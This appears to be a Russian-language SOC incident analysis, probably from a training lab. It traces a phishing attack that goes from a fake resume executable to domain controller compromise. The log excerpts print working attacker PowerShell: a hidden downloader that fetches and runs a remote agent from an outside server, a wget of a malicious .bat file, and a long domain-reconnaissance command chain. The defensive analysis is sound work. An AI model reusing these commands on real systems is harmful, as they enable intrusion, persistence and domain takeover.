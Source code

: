 # SOC-Enigma

Описание: Система UserGate Log Analyzer зафиксировала зафиксировала подозрительную активность - фишинг с последующей компрометацией хоста

## Этап 1: Фишинг
**Время 3:39** Пользователь получает письмо на сервис OutLook и скачивает **Resume.zip**

```sh
-2022-08-02 03:39:22.234{289a599c-9c69-62e8-6e14-000000001900}9396C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exeC:\Users\Bob\Downloads\Resume.zip2022-08-02 
```

![ScreenShot](screenshots/1.png)

### Этап 2: Зауск файла resume.pdf.exe пользователем и дальнейшее развитие атаки
В 3:39 был запущен файл **resume.pdf.exe**. Данный файл при запуске пытается установить соединение с хостом 192.168.44.57:8888.

```sh
powershell.exe /c Start-Process -FilePath Resume.pdf.exe -ArgumentList '-server http://192.168.44.57:8888 -group red' -WindowStyle Hidden powershell.exe -ExecutionPolicy Bypass -C Clear-History;Clear
```

![ScreenShot](screenshots/2.png)

В 3:54 был создан процесс, который позволяет устанавливать связь с сервером.

```sh
HostApplication=powershell.exe -ExecutionPolicy Bypass -C if ($host.Version.Major -ge 3){$ErrAction= "ignore"}else{$ErrAction= "SilentlyContinue"};$server="http://0.0.0.0:8888";$socket="0.0.0.0:7010";$contact="tcp";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","manx.go");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");Get-Process | ? {$_.Path -like "C:\Users\Public\$name.exe"} | stop-process -f -ea $ErrAction;rm -force "C:\Users\Public\$name.exe" -ea $ErrAction;([io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data)) | Out-Null;Start-Process -FilePath C:\Users\Public\$name.exe -ArgumentList "-socket $socket -http $server -contact $contact" -WindowStyle hidden;
```

### Этап 3: Разведка системы
В 3:55 была произведена разведка системы:

```sh
C:\Windows\System32\cmd.execmd.exe /C @echo off&echo ________________________________Whoami______________________________ &  whoami &echo ________________________________HostName______________________________  & hostname  & echo ________________________________IpConfig______________________________ & ipconfig /all  & echo ____________________________AllLocalUsers___________________________ & net user /domain  & echo _________________________AllUserInDomain___________________________ & net group /domain  & echo __________________________DomianAdmins_______________________________ & net group "domain admins" /domain  & echo _______________________ExchangetrustedMembers_______________________ & net group "Exchange Trusted Subsystem" /domain  & echo ________________________NetAccountDomain____________________________ & net accounts /domain  & echo ______________________________NetUser________________________________ & net user  & echo _______________________NetLocalGroupMembers________________________ & net localgroup administrators  & echo ________________________________netstat_______________________________ & netstat -an  & echo ______________________________tasklist________________________________ & tasklist  & echo _____________________________systeminfo_______________________________ & systeminfo  & echo ________________________________RDP___________________________________ & reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"  & echo ________________________________Task__________________________________ & schtasks /query /FO List /TN "GoogleUpdatesTaskMachineUI" /V | findstr /b /n /c:"Repeat: Every:"  & echo ________________________________________AntiVirus______________________________ &WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

### Этап 4: Загрузка вредоносного .bat файла

В 4:02 был создан процесс, связанный с файлом **0000000000.bat**, который впоследствии становится файлом **1.bat**
```sh
powershell.exe -ExecutionPolicy Bypass -C "wget http://192.168.44.57:8000/0000000000.bat -OutFile c:\windows\temp\1.bat
```

![ScreenShot](screenshots/3.png)

Также замечен файл **1.log**, который, возможно, создается при работе **1.bat**
```sh
powershell.exe -ExecutionPolicy Bypass -C gc c:\windows\temp\1.log
```

![ScreenShot](screenshots/4.png)

Около 4:28 был выполнен вход с правами администратора:
```sh
Выполнена попытка входа в систему с явным указанием учетных данных.

Субъект:
	ИД безопасности:		S-1-5-21-2282938710-1989567394-2605000726-1662
	Имя учетной записи:		bob
	Домен учетной записи:		PENTEST
	Код входа:		0xEC1DC
	GUID входа:		{00000000-0000-0000-0000-000000000000}

Были использованы учетные данные следующей учетной записи:
	Имя учетной записи:		Administrator
	Домен учетной записи:		
	GUID входа:		{00000000-0000-0000-0000-000000000000}

Целевой сервер:
	Имя целевого сервера:	exchange.pentest.net
	Дополнительные сведения:	exchange.pentest.net

Сведения о процессе:
	Идентификатор процесса:		0x4
	Имя процесса:		

Сведения о сети:
	Сетевой адрес:	172.16.249.160
	Порт:			445
```

В период с 4 до 5 был захвачен хост, а также контроллер домена.

### Тип атаки
Тип угрозы: НСД

Возможное негативное воздействие: FD - 8, CE – 8, PI – 10, МО – 8. 

Рекомендации по обеспечению безопасности: антивирус, проведение тренингов с сотрудниками на различные темы информационной безопасности.
